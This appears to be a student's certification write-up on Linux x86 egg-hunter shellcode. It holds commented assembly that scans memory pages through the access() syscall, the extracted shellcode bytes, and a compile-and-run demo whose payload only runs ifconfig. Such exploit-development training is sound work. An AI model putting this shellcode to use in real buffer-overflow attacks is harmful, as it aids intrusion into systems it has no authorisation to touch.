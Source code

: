 **Assignment 3**

	Shellcode for Egghunter  

**Introduction**

	In a normal buffer overflow scenario, the location of where the shellcode is placed is more or less static and/or could be referenced by using a register and the available size in the stack memory is enough to fit the shellcode.Consider a scenario where the available buffer size is too small to squeeze the entire shellcode

	A technique called egg hunting may help us out here. Accoring to corelan ,Egg hunting is a technique that can be categorized as “staged shellcode”, and it basically allows you to use a small amount of custom shellcode to find your actual (bigger) shellcode (the “egg”) by searching for the final shellcode in memory.  In other words, first a small amount of code is executed, which then tries to find the real shellcode and executes it.

	There are 3 conditions that are important in order for this technique to work

		1. You must be able to jump to (jmp, call, push/ret) & execute “some” shellcode.  The amount of available buffer space can be relatively small, because it will only contain the so-called “egg hunter”.  The egg hunter code must be available in a predictable location (so you can reliably jump to it & execute it)

		2. The final shellcode must be available somewhere in memory (stack/heap/…).

		3. You must “tag” or prepend the final shellcode with a unique string/marker/tag. The initial shellcode (the small “egg hunter”) will step through memory, looking for this marker. When it finds it, it will start executing the code that is placed right after the marker using a jmp or call instruction.  This means that you will have to define the marker in the egg hunter code, and also write it just in front of the actual shellcode.


	Good Reads :
			https://www.fuzzysecurity.com/tutorials/expDev/4.html
			https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/
			http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
			http://r00tin.blogspot.com/2009/03/heap-only-egg-hunter.html


**Methodology**

	The x86 processors in 32-bit mode support page sizes of 4KB, 2MB, and 4MB. Both Linux and Windows map the user portion of the virtual address space using 4KB pages. Bytes 0-4095 fall in page 0, bytes 4096-8191 fall in page 1, and so on.

	The Egghunter code will be browsing through the pages to look for the marker / egg and use access function to see the pages are accessible or not . If we get a efault error for a page ,we can skip that  page and check the next page.Once a valid page is found we look for the egg/marker and jmp on the codepart of the egg/marker


	Access Function

		access() checks whether the calling process can access the file pathname.
		Refer : https://linux.die.net/man/2/access

		int access(const char *pathname, int mode);

		Parameters
			*pathname will be the addresslocation of the page we want to check
			The mode specifies the accessibility check(s) to be performed, and is either the value F_OK, or a mask consisting of the bitwise OR of one or more of R_OK, W_OK, and X_OK. F_OK tests.

	Incase of a access deny , and EFAULT will be returned ie (14)



	Our egg would be 0x41414141 and the egghunter will look for 0x41414141 + "/bin/bash -c ifconfig" shellcode through the memory.once found code will jump onto /bin/sh shellcode

	8bytes 0x4141414141414141 is considered because we dont wanna match the egghunter shellcode itself


		global _start



		section .text

		_start:

        		; initialization
        		xor ecx, ecx
        		mul ecx          		#will clear ecx,eax and edx register
        		xor ebx, ebx
        		xor esi, esi

		next_lpage:
        		or dx,0xfff                
        						#using logical or with 0xfff and a memory address allows us to increment page sizes by a multiple of 4095. so next page is acheived using address location or ed with 0xfff , 4095 and 
        							adding a 1
        						#the reason we cant just increment page sizes with 4096 is hex(4096) = 0x1000 cause a null byte to be added in the shellcode								

		next_incr:
        		inc edx         		#page increment

        						;access function  to check permission

        		xor eax,eax       		#clear eax
        		mov edi,0x41414141      	#edi contains the egg we are looking for .
        		mov al,0x21             	#EAX conatins 33 , access function call number
        							#cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 33
        							##define __NR_access              33


        		lea ebx,[edx+8]         	#load the address value contained in edx + 8  to ebx 
        		int 0x80                	#access call to check if the page is accessible
        		cmp al,0xf2

        							#after the function call eax contains the return value , in case of 		EFAULT (bad address) the value we are looking for is 14 , ie  cat /usr/include/asm-generic/errno-base.h

        							Since this is an error code it will actually be returned as a negative 14 thus in hex we get back 0xfffffff2  #2s compliment	

        							-14 

									0000 1110 
									1111 0001 + 
							               		1 
									-------------- 
									1111 0010 
									F   2

        		jz next_lpage  			#incase of a efaul , jump to next page

        		cmp edi,[edx]  			#egg match find ?
        		jnz next_incr  			#if not advance memory

        		cmp edi,[edx+4]         	#eggmatch twice ?
        		jnz next_incr			#if not advance page

        		lea esi,[edx+8]			#egg match twice , get the address location of the shellcode to be executed to esi
        		jmp esi				#jmp to location pointed by esi

**Practical**

Egg is 0x41414141 , the shellcode to be executed is of "/bin/bash -c ifconfig"

	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./compile.sh egg
 	Assembling with nasm
	Success, Now Linking
	Go Ahead, may the force be with you
	toor@ubuntu:~/Desktop/slae/Assignments/3$
	
	Extracting Shellcode using objdump
	toor@ubuntu:~/Desktop/slae/Assignments/3$ objdump -d ./egg|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
		"\x31\xc9\xf7\xe1\x31\xdb\x31\xf6\x66\x81\xca\xff\x0f\x42\x31\xc0\xbf\x41\x41\x41\x41\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xe8\x3b\x3a\x75\xe9\x3b\x7a\x04\x75\xe4\x8d\x72\x08\xff\xe6"

	Copy pasting shell code to C wrapper Program.
	toor@ubuntu:~/Desktop/slae/Assignments/3$ nano poc.c
	toor@ubuntu:~/Desktop/slae/Assignments/3$ gcc -fno-stack-protector -z execstack poc.c -o shellcode
	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./shellcode
	Size: 47 bytes.
	eth0    Link encap:Ethernet  HWaddr 00:0c:29:f5:aa:6c
         	inet addr:192.168.230.169  Bcast:192.168.230.255  Mask:255.255.255.0
          	inet6 addr: fe80::20c:29ff:fef5:aa6c/64 Scope:Link
          	UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          	RX packets:83289 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:34547 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:1000
          	RX bytes:57571168 (57.5 MB)  TX bytes:6962937 (6.9 MB)
          	Interrupt:19 Base address:0x2000
		
	lo      Link encap:Local Loopback
          	inet addr:127.0.0.1  Mask:255.0.0.0
          	inet6 addr: ::1/128 Scope:Host
          	UP LOOPBACK RUNNING  MTU:65536  Metric:1
          	RX packets:6986 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:6986 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:0
          	RX bytes:627379 (627.3 KB)  TX bytes:627379 (627.3 KB)

	toor@ubuntu:~/Desktop/slae/Assignments/3$

	Works like a charm


**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
        	

